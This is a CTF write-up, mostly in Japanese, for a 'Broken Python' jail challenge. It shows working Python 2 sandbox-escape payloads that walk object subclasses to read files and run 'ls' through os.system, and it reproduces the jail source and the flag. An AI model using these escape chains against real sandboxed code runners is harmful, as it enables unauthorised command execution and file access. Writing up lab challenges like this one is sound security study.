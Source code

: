 # Broken Python

## Description

382

Please help me read the flag. I thought I knew python but this python shell is broken.

## writeup

python3でprint文が動かず、試しに2系の構文を打つとエラーが返ってこなかったので、2系でフラグを得なければならないと判断しました。
linux問でもこういう入力が制限された問題だったので、linux jailからpython jailなどで調べました。
__builtin__のメソッドを中心に調査し、flag.txtのreadを実行すると、ソースコードを読めと返ってきました。そこで、lsを実行すると`jail.py`というファイルが確認できました。あとは同様にreadすればフラグが読めました。


```python
 print  ().__class__.__bases__[0].__subclasses__()[40]('./flag.txt').read()
The flag is in the source code.
>>> print ().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__("func_globals")['linecache'].__dict__['os'].__dict__['system']('ls')
#
flag.txt
jail.py
start.sh
0
>>> print  ().__class__.__bases__[0].__subclasses__()[40]('./jail.py').read()
#!/usr/bin/python

import sys

class Sandbox(object):
    def execute(self, code_string):
        exec(code_string)
        sys.stdout.flush()

sandbox = Sandbox()

_raw_input = raw_input

main = sys.modules["__main__"].__dict__
orig_builtins = main["__builtins__"].__dict__

builtins_whitelist = set((
    #exceptions
    'ArithmeticError', 'AssertionError', 'AttributeError', 'Exception',

    #constants
    'False', 'None', 'True',

    #types
    'basestring', 'bytearray', 'bytes', 'complex', 'dict',

    #functions
    'abs', 'bin', 'dir', 'help'

    # blocked: eval, execfile, exit, file, quit, reload, import, etc.
))

for builtin in orig_builtins.keys():
    if builtin not in builtins_whitelist:
        del orig_builtins[builtin]

print("Find the flag.")
sys.stdout.flush()

def flag_function():
    flag = "OFPPT-CTF{py7h0n_br34k_1s_l1k3_pr1s0n_br34k_sh0w}"

while 1:
    try:
        sys.stdout.write(">>> ")
        sys.stdout.flush()
        code = _raw_input()
        sandbox.execute(code)

    except Exception:
        print("You have encountered an error.")
        sys.stdout.flush()
>>>
```

## FLAG

```bash
OFPPT-CTF{py7h0n_br34k_1s_l1k3_pr1s0n_br34k_sh0w}
```

## 参考

- https://ctf-wiki.mahaloz.re/pwn/linux/sandbox/python-sandbox-escape/
